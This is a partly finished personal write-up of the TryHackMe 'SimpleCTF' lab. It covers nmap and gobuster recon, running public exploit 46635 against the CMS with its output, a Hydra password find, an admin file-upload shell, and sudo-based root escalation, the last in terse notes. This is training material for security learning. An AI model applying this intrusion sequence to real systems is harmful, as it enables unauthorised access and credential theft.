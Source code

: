 ## TryHackMe - [SimpleCTF](https://tryhackme.com/room/simplectf)
> Completed 28th June  2022.

This box ended up being an interesting less than straight forward boot2root exercise. I found myself stuggling again once I needed to explore for priviledge escallation vectors.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- Gobuster
- Hydra
- ExploitDB
- Metasploit / Netcat listener

---
### Methodology
#### Objectives/Flags
1. user flag
2. root flag

---
#### Reconnaissance
Started off by scanning the target for open ports and services.
```bash
nmap -T4 -Pn -sV <TargetIP>
```
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
This reavealed a web server that we can enumerate and an ssh service running on a custom port of `2222`. When navigating to the URL of the webserver we a met with a default Apache page which could hint at unconventional file structure. I loaded up `Gobuster` and got it to work scanning for directories. The wordlist used was `httparchive_directories_1m_2021_04_28.txt` which can be found [here](https://wordlists.assetnote.io/).
```bash
gobuster dir --url http://<TargetIP>/ -w <Wordlist> > <Outputfile>
```
```
//simple              (Status: 301) [Size: 313] [--> http://<TargetIP>/simple/]
```
Once we navigate to the `simple` directory, we are met with a webpage that appears be built using a CMS framework. From here set `Gobuster` up to scan the new directory as I started walking through the page-source and hyperlinks and discover an admin login portal.
```bash
gobuster dir --url http://<TargetIP>/simple -w <Wordlist> > <Outputfile>
```
```
//uploads             (Status: 301) [Size: 319] [--> http://10.10.7.140/simple/uploads/]
//admin               (Status: 301) [Size: 317] [--> http://10.10.7.140/simple/admin/]    
```

found robots.txt and revealed user `mitch`

searched up CMS framework on ExploitDB and find exploit to run
exploit required python syntax fixing. This exploit looks to use blin
```bash
python 46635.py -u http://<TargetIP>/simple/
```
```
[+] Salt for password found: 1dac0d92e9fa6bb2.
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```
The exploit confirms user `mitch` is present on the target and reveals to us an admin email address. Unfortunately the exploit fails to crack the password, the error indicates to me that it might be another syntax issue but as it's beyond my  knowledge, I couldn't remediate it.


Hydra mitch
[80][http-post-form] host: 10.10.194.228   login: mitch   password: secret

find admin file upload
set up listener
run payload

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Exploit DB 46635
fix up syntax
python 46635.py -u http://10.10.78.164/simple/
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[*] Try: 0c01f4468bd75d7a84c7eb73846e8d96$
[*] Now try to crack password
Traceback (most recent call last):
  File "/home/kali/kali-tools/TryHackMe/SimpleCTF/46635.py", line 184, in <module>
    crack_password()
  File "/home/kali/kali-tools/TryHackMe/SimpleCTF/46635.py", line 53, in crack_password
    for line in dict.readlines():
  File "/usr/lib/python3.9/codecs.py", line 322, in decode
    (result, consumed) = self._buffer_decode(data, self.errors, final)
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf1 in position 933: invalid continuation byte
```

ssh into mitch
user.txt
sudo -l
vim exploit
root.txt

#### Weaponization 
- N/A

#### Delivery
- N/A

#### Exploitation
- N/A

#### Installation 
- N/A

#### Command & Control
- N/A

#### Actions on Objective
- N/A

---
### After-action
#### What I've learned
- N/A

#### What I would've done differently
- N/A

> Edit: N/A
